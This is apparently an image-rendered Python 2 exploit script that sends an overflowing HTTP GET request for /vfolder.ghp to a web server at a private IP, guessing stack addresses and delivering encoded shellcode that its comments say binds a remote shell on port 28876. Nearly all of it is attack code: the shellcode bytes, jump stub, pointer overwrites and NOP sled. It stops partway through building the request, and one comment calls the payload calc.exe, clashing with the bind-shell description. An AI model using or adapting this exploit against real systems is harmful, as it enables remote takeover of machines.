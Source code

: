 ```python
import struct
import time
import sys

target = "192.168.1.140"
port = 80

# Shellcode from https://code.google.com/p/w32-bind-ngs-shellcode/
# Binds a shell on port 28876
# msfencode -b '\x00\x20' -i w32-bind-ngs-shellcode.bin 
# [*] x86/shikata_ga_nai succeeded with size 241 (iteration=1)
shellcode = ( 
"\xbb\xa1\x68\xde\x7c\xdd\xc0\xd9\x74\x24\xf4\x58\x33\xc9" +
"\xb1\x36\x31\x58\x14\x83\xe8\xfc\x03\x58\x10\x43\x9d\xef" +
"\xb5\xe7\xd5\x61\x76\x6c\x9f\x8d\xfd\x04\x7c\x05\x6f\xe0" +
"\xf7\x67\x50\x7b\x31\xa0\xdf\x63\x4b\x23\x8e\xfb\x81\x9c" +
"\x02\xc9\x8d\x44\x33\x5a\x3d\xe1\x0c\x2b\xc8\x69\xfb\xd5" +
"\x7e\x8a\xd5\xd5\xa8\x41\xac\x02\x7c\xaa\x05\x8d\xd0\x0c" +
"\x0b\x5a\x82\x0d\x44\x48\x80\x5d\x10\xcd\xf4\xea\x7a\xf0" +
"\x7c\xec\x69\x81\x36\xce\x6c\x7c\x9e\x3f\xbd\x3c\x94\x74" +
"\xd0\xc1\x44\xc0\xe4\x6d\xac\x58\x21\xa9\xf1\xeb\x44\xc6" +
"\x30\x2b\xd2\xc3\x1b\xb8\x57\x37\xa5\x57\x68\x80\xb1\xf6" +
"\xfc\xa5\xa5\xf9\xeb\xb0\x3e\xfa\xef\x53\x15\x7d\xd1\x5a" +
"\x1f\x76\xa3\x02\xdb\xd5\x44\x6a\xb4\x4c\x3a\xb4\x48\x1a" +
"\x8a\x96\x03\x1b\x3c\x8b\xa3\x34\x28\x52\x74\x4b\xac\xdb" +
"\xb8\xd9\x43\xb4\x13\x48\x9b\xea\xe9\xb3\x17\xf2\xc3\xe1" +
"\x8a\x6a\x47\x6b\x4f\x4a\x0a\x0f\xab\xb2\xbf\x5b\x18\x04" +
"\xf8\x72\x5e\xdc\x80\xb9\x45\x8b\xdc\x93\xd7\xf5\xa6\xfc" +
"\xd0\xae\x7a\x51\xb6\x02\x84\x03\xdc\x29\x3c\x50\xf5\xe7" +
"\x3e\x57\xf9"
)

print "[+] We're guessing an address on the stack. It will be a few minutes..."

for i in xrange(1,255):
    n = ""
    if i < 16:
        n = "0" + hex(i)[-1]
    else:
        n = hex(i)[2:]

    # craft the value of EDX that will be used in CALL DWORD PTR DS:[EDX+28]
    guess = "0x01" + n + "6940"
    sys.stdout.write("=");
 
    payload =  "A"*64                            # padding
    payload += "\x81\xee\x70\xff\xff\xff"        # SUB ESI,-90
    payload += "\xff\xe6"                        # JMP ESI

    payload += "A"*8                             # padding
    payload += struct.pack("<I", int(guess, 16)) # overwrite EDX with 
                                                 # pointer to CALL ESI

    payload += "C"*108                           # padding
    payload += struct.pack("<I", 0x10023701)     # pointer to CALL ESI
    payload += "\x90"*20                         # NOP sled
    payload += shellcode                         # calc.exe

    # craft the request
    buf = (
    "GET /vfolder.ghp HTTP/1.1\r\n"
    "User-Agent: Mozilla/4.0\r\n"
    "Host:" + target + ":" + str(port) + "\r\n"
```
